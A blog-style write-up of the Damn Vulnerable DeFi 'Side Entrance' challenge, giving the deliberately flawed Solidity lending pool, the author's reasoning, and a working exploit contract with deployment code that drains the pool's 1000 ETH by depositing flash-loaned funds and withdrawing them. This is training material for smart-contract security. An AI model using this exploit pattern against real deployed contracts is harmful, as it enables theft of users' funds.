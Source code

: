 # Damn Vulnerable Defi 4: Side Enterance

Side enterance as a way to misuse existing contract features to curcumvent require checks

## The Task Intro

A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

You must take all ETH from the lending pool.

## The Task Code

```apache
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "@openzeppelin/contracts/utils/Address.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    using Address for address payable;

    mapping (address => uint256) private balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");
    }
}
```

## The Solution

This is my last hack today. This contract allows to deposit, withdraw and to take a flash loan. Deposit and withdraw show no attack point so the suspect was for me the interface `IFlashLoanEtherReceiver`. I was thinking this might be a re-entrance attack, but because of the name it must be different.

The first `require(balanceBefore >= amount, "Not enough ETH in balance");` seem to be not a problem but the second `require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");` was blocking a re-entrance attack, but as well just taking out the maxium amount of the pool.

The key thought here is that I can deposit in my smart contract address the lended ETH. The mistake here is that the require checks the balance of the contract, it does not care who the money belongs - big mistake 🎉️.

1000 eth gone. Thats all for today, one task more tomorrow on the damn vulnerable defi, then some solidity riddles, I am not allowed to share publicly. This will then the end of the security month!

```apache
contract Crack is IFlashLoanEtherReceiver {
    SideEntranceLenderPool pool;

    constructor(SideEntranceLenderPool _pool) {
        pool = _pool;
    }

    function attack() external {
        pool.flashLoan(1000 * 10 ** 18);
        pool.withdraw();
        (bool success, ) = address(msg.sender).call{
            value: address(this).balance
        }("");
    }

    function execute() external payable override {
        pool.deposit{value: msg.value}();
    }

    receive() external payable {}

    function payout() external {}
}
```

```apache
    const Crack = await ethers.getContractFactory("contracts/side-entrance/SideEntranceLenderPool.sol:Crack", deployer);
    this.crack = await Crack.deploy(this.pool.address);

    await this.crack.connect(attacker).attack();
```

!
